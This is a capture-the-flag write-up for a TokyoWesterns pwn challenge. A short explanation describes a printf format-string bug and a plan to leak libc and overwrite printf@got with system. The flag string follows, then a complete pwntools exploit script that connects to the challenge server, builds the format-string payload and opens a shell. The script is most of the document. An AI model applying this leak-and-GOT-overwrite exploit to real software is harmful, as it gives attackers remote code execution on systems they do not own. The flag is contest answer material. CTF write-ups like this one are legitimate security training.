 # Nothing much to see

The binary forms an interactive 100-byte printf prompt, where every input has printf called on it directly. No protections, so we can execute a simple GOT overwrite attack. Firstly, we'll need to leak libc - this can be done by leaking \_\_libc\_start\_main\_ret at offset 39. Then, we can use a format string payload to overwrite printf@got with system. Afterwards, everything we enter into the prompt will be system'd, forming a sort of shell. We can type /bin/sh and hit enter to get into a proper shell with this, or just enjoy the existing one. we cat flag.txt to get the flag.

### Flag: TWCTF{kotoshi\_mo\_hazimarimasita\_TWCTF\_de\_gozaimasu}

```text
from pwn import *
context.arch = 'amd64'
e = ELF("./nothing")
p = e.process() if args.LOCAL else remote('pwn02.chal.ctf.westerns.tokyo', 18247)
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1.2_amd64/libc.so.6")
libret = 0x21b97 if not args.LOCAL else 0x26e0b
p.recvuntil(b"> ")
offset = 6
p.sendline("%39$p")
leak = int(p.recvline(),16)
log.info(f"Libc leak: {hex(leak)}")
libcbase = leak - libret
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
writes = {e.got['printf']:libc.symbols['system']}
payload = fmtstr.fmtstr_payload(offset, writes)
print(len(payload))
p.sendlineafter(b"> ",payload)
p.clean()
p.sendline("/bin/sh")
p.interactive()
```

